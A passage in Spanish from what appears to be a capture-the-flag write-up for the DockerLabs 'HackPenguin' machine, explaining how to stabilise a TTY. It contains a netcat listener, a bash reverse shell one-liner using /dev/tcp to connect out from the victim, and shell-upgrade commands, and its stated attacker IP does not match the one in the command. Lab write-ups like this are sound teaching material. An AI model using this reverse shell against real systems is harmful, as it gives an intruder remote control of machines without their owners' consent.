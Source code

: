 ### Tratamiento de la tty

[](https://github.com/albertomarcostic/DockerLabs-WriteUps/blob/main/M%C3%A1quina%20HackPenguin.md#tratamiento-de-la-tty)

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/10.0.2.15/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

---

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.